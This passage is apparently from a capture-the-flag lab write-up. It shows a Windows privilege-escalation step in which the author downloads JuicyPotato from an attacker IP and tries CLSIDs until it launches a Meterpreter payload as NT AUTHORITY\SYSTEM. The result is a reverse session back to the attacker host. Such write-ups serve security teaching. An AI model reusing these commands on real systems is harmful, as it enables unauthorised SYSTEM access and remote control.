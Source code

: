 

    PS C:\windows\system32\spool\drivers\color> wget 10.10.14.6/JuicyPotato.exe -outfile jp.exe



Running it shows how to call it:



    PS C:\windows\system32\spool\drivers\color> .\jp.exe
    JuicyPotato v0.1 

    Mandatory args: 
    -t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
    -p <program>: program to launch
    -l <port>: COM server listen port

    Optional args: 
    -m <ip>: COM server listen address (default 127.0.0.1)
    -a <argument>: command line argument to pass to program (default NULL)
    -k <ip>: RPC server ip address (default 127.0.0.1)
    -n <port>: RPC server listen port (default 135)
    -c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
    -z only test CLSID and print token's user



I can try with just the mandatory args:



    PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p C:\windows\system32\spool\drivers\color\met.exe -l 9001
    Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9001
    COM -> recv failed with error: 10038



It's trying with the BITs server, but that's failing.

[This
page](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter)
has a list of CLSIDs for Windows 2012, as well as the user they
associate with. I'll work my way down the page, and when I get to the
seventh row (the first for `winmgmt`), it works:



    PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p C:\windows\system32\spool\drivers\color\met.exe -l 9001 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"
    Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 9001
    ......
    [+] authresult 0
    {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
    [+] CreateProcessWithTokenW OK



At `msfconsole`:



    [*] Sending stage (175174 bytes) to 10.10.10.72
    [*] Meterpreter session 4 opened (10.10.14.6:443 -> 10.10.10.72:49181 )

